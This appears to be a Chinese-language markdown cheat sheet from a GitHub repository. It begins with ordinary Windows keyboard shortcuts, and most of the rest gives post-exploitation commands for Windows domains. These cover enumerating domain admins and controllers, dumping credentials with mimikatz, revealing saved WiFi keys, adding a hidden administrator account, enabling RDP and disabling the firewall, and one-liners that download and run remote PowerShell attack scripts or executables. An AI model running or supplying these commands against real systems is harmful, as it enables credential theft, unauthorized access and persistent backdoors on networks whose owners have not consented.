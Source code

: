# title{windows - }
# 常用的快捷
* win + d 显示桌面
* win + R 运行
* win + E 资源管理器
* WIN + L 锁屏
* Win + Tab 切换程序
* CTRL + W 关闭资源管理器
* CTRL + HOME 跳到文件头
* CTRL + END  调到文件末尾
* alt +双击   查看文件属性
* SHIFT+鼠标右键 可以在当前路径下打开DOS窗口
* CTRL+SHIFT+ESC 打开进程管理器
* WIN + 右箭头 当前窗口放为屏幕一般靠屏幕右侧
* WIN + 左箭头 当前窗口缩放为屏幕的一半，靠屏幕左侧显示
* WIN + 上箭头 最大化当前窗口
* WIN + 下箭头：还原和最小化当前窗口
* WIN+R 输入“msconfig”，弹出系统设置界面，可设置禁止、允许进程开机自启动
* WIN+R，输入“psr”后回车：打开步骤记录器
* WIN+R，输入“mip”，启动数学公式手写板
* WIN+Home：最小化所有窗口，除了当前激活窗口
* WIN+M：最小化所有窗口
* WIN+SHIFT+M：还原最小化窗口到桌面上
* WIN+P：选择一个演示文稿显示模式
* WIN+Pause：显示系统属性对话框

## 常用命令
query user || qwinsta 查看当前在线用户

net user  查看本机用户

net user /domain 查看域用户

net view & net group "domain computers" /domain 查看当前域计算机列表 第二个查的更多

net view /domain 查看有几个域

net view \\\\dc   查看 dc 域内共享文件

net group /domain 查看域里面的组

net group "domain admins" /domain 查看域管

net localgroup administrators /domain   /这个也是查域管，是升级为域控时，本地账户也成为域管

net group "domain controllers" /domain 域控

net time /domain

net config workstation   当前登录域 - 计算机名 - 用户名

net use \\\\域控(如pc.xx.com) password /user:xxx.com\username 相当于这个帐号登录域内主机，可访问资源

ipconfig

systeminfo

tasklist /svc

tasklist /S ip /U domain\username /P /V 查看远程计算机 tasklist

net localgroup administrators && whoami 查看当前是不是属于管理组

netstat -ano

nltest /dclist:xx  查看域控

whoami /all 查看 Mandatory Label uac 级别和 sid 号

net sessoin 查看远程连接 session (需要管理权限)

net share     共享目录

cmdkey /l   查看保存登陆凭证

echo %logonserver%  查看登陆域

spn –l administrator spn 记录

set  环境变量

dsquery server - 查找目录中的 AD DC/LDS 实例

dsquery user - 查找目录中的用户

dsquery computer 查询所有计算机名称 windows 2003

dir /s *.exe 查找指定目录下及子目录下没隐藏文件

arp -a
发现远程登录密码等密码 netpass.exe  下载地址：

https://www.nirsoft.net/utils/network_password_recovery.html获取 window vpn 密码：
mimikatz.exe privilege::debug token::elevate lsadump::sam lsadump::secrets exit  wifi 密码：
netsh wlan show profile 查处 wifi 名

netsh wlan show profile WiFi-name key=clear 获取对应 wifi 的密码ie 代理
reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet

Settings" /v ProxyServer

reg query "HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionInternet Settings"pac 代理
reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet

Settings" /v AutoConfigURL   //引子 t0stmailpowershell-nishang
https://github.com/samratashok/nishang
其他常用命令
ping       icmp 连通性

nslookup www.baidu.com vps-ip dns 连通性

dig @vps-ip www.baidu.com

curl vps:8080  http 连通性

tracert

bitsadmin /transfer n http://ip/xx.exe C:\windows\temp\x.exe一种上传文件 >= 2008

fuser -nv tcp 80 查看端口 pid

rdesktop -u username ip linux 连接 win 远程桌面 (有可能不成功)

where file win 查找文件是否存在

找路径，Linux 下使用命令 find -name *.jsp 来查找，Windows 下，使用 for /r c:\windows\temp\ %i in (file lsss.dmp) do @echo %i

netstat -apn | grep 8888   kill -9 PID   查看端口并 kill
远程登录内网主机
判断是内网，还是外网，内网转发到 vps

netstat -ano   没有开启 3389 端口,复查下

tasklist /svc,查 svchost.exe 对应的 TermService 的 pid,看 netstat 相等的 pid 即 3389 端口.
在主机上添加账号
net user admin1 admin1 /add & net localgroup administrators admin1 /add
如不允许远程连接，修改注册表

REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f
如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许 3389 端口，命令如下:

netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
关闭防火墙

netsh firewall set opmode mode=disable
3389user 无法添加:

http://www.91ri.org/5866.html
**隐藏 win 账户**

开启 sys 权限 cmd:

IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1');Invoke-TokenManipulation -CreateProcess 'cmd.exe' -Username 'nt authority\system'
add user 并隐藏:

IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/Windows-User-Clone/master/Windows-User-Clone.ps1')
win server 有密码强度要求，改为更复杂密码即可:



## 批量文件处理

//powershell执行批量修改文件名
dir | foreach {mv $_ $_.Name.Replace('优选整合','')}


